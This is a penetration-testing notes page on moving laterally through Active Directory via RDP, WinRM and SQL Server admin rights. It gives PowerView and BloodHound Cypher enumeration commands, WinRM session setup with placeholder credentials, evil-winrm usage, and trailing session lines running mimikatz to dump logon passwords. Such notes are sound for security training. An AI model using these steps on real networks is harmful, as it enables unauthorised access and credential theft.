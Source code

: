 BloodHound could help us with:
- [CanRDP](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canrdp)
- [CanPSRemote](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canpsremote)
- [SQLAdmin](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#sqladmin)

### Remote Desktop 

Usually we will have RDP access with users we find. Sometimes we can't have access to some machines (like the DC), but we can access others to:
- Launch further attacks
- Be able to escalate privileges and obtain credentials for a higher privileged user
- Be able to pillage the host for sensitive data or credentials

With PowerView we can enumerate the members of the **Remote Desktop Users** group on a machine:
```console
PS C:\zeropio> Get-NetLocalGroupMember -ComputerName <COMPUTER NAME> -GroupName "Remote Desktop Users"
```

We can also check this in BloodHound in the **Node Info**, **Execution Rights**.

### WinRM

We can check this with **Get-NetLocalGroupMember** to the **Remote Management Users** group:
```console
PS C:\zeropio> Get-NetLocalGroupMember -ComputerName <COMPUTER NAME> -GroupName "Remote Management Users"
```

We can also utilize this custom Cypher query in BloodHound to hunt for users with this type of access:
```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

We can stablish a WinRM session from Windows:
```console
PS C:\zeropio> $password = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
PS C:\zeropio> $cred = new-object System.Management.Automation.PSCredential ("<DOMAIN>\<USER>", $password)
PS C:\zeropio> Enter-PSSession -ComputerName <COMPUTER NAME> -Credential $cred
```

From Linux we can use [evil-winrm](https://github.com/Hackplayers/evil-winrm):
```console
zero@pio$ evil-winrm -i <IP> -u <USER>
```

### SQL Server Admin 

Often we will find SQL Server. The tool [Snaffler](https://github.com/SnaffCon/Snaffler) can help us finding credentials for this. Also, with BloodHound we can check for **SQL Admin Rights** in the **Node Info** or with this query:
```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```


[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit 
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm